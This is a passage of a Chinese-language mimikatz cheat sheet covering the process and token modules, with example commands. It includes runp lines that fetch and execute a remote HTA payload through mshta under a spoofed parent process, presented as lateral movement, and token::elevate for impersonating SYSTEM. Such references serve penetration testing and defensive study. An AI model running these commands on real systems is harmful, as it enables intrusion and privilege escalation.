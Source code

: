 ```
 通过使用NtResumeProcess Windows Native API函数恢复一个暂停的进程。
```
mimikatz # process::resume notepad /pid:9212
```

## run

通过使用CreateProcessAsUser Win32 API函数创建一个进程。CreateEnvironmentBlock也被利用了

```
mimikatz # process::run notepad
```

## runp
在一个父进程下运行一个子进程（默认的父进程是LSASS.exe）。它也可用于横向移动和进程欺骗。
```
mimikatz # process::runp /run:notepad.exe

mimikatz # process::runp /run:notepad.exe /ppid:6388   #指定进程

mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948   # mshta攻击负载执行

mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948 /token:1  # 在指定令牌下执行mshta有效负载
```

## start

通过使用CreateProcess Win32 API函数启动一个进程。该进程的PID也被显示出来
```
mimikatz # process::start notepad.exe
```

## stop
 通过使用NtTerminateProcess Windows Native API函数终止一个进程。
```
mimikatz # process::stop notepad /pid:6500
```

## suspend
通过使用NtSuspendProcess Windows Native API函数暂停一个进程。
```
mimikatz # process::suspend notepad /pid:9212
```


# token

## elevate
可以用来冒充一个令牌。默认情况下，它将把权限提升到NT AUTHORITY/SYSTEM

```
mimikatz # token::elevate
```

## list

枚举系统上所有的token
```
mimikatz # token::list
```

## revert
恢复到之前的令牌

```